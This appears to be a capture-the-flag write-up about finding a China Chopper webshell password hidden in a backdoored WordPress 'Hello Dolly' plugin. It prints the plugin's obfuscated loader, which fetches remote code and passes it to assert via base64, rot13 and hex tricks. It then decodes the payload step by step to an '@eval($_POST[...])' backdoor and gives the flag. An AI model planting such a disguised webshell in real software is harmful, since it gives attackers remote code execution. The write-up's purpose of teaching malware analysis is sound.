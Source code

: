## Writeup

题目要求寻找菜刀密码

## hello.php

```
<?php
/**
 * @package Hello_Dolly
 * @version 1.6
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.6
Author URI: http://ma.tt/
*/
if(empty($_SESSION['cfg']))			$_SESSION['cfg']=file_get_contents(hex2bin('687474703a2f2f3132372e302e302e312f77702d636f6e74656e742f7468656d65732f7477656e74797369787465656e2f6a732f75692e6a73'));
$arr=array(str_rot13(base64_decode($_SESSION['cfg'])),);
array_filter($arr,str_rot13(base64_decode('bmZmcmVn')));

```

`687474703a2f2f3132372e302e302e312f77702d636f6e74656e742f7468656d65732f7477656e74797369787465656e2f6a732f75692e6a73` 

base64 decode

`http://127.0.0.1/wp-content/themes/twentysixteen/js/ui.js`

Content

`QHJpbnkoJF9DQkZHWyJvN3BxbnMwMzBxNTlzc3JxNzMxcXBuMDFuMTU2NXJybyJdKQ==`

base64 decode

` @riny($_CBFG["o7pqns030q59ssrq731qpn01n1565rro"]) `

decode rot13

```
>>> import codecs
>>> codecs.encode('@riny($_CBFG["o7pqns030q59ssrq731qpn01n1565rro"])', 'rot_13')
'@eval($_POST["b7cdaf030d59ffed731dca01a1565eeb"])'

```

`@eval($_POST["b7cdaf030d59ffed731dca01a1565eeb"])`

flag{b7cdaf030d59ffed731dca01a1565eeb}

